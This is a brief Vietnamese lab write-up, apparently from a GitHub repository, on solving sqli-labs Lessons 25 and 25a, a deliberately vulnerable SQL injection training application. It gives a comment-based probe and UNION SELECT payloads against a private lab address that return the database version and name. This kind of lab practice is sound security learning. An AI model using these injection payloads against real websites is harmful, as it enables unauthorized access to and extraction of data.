



# Những việc làm được với lesson-25
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-25



1. Nhập giá trị id 



2. Ta đi tìm cấu trúc của nó 



```
?id=1' --+
```
3. Truy xuất dữ liệu với union 

```
192.168.80.225/sqli-labs/Less-25/?id=1' union select 1,version(),database() limit 1,1 --+
```

Tương tự như thế ta có thể truy xuất toàn bộ dữ liệu của bài này 

Ở bài 25a cũng như thế và ta tìm ra cấu trúc truy vấn của bài này và dùng union là có thể tìm được cấu trúc dữ liệu của DB 

```
192.168.80.225/sqli-labs/Less-25a/?id=1 union select 1,version(),database() limit 1,1 --+
```


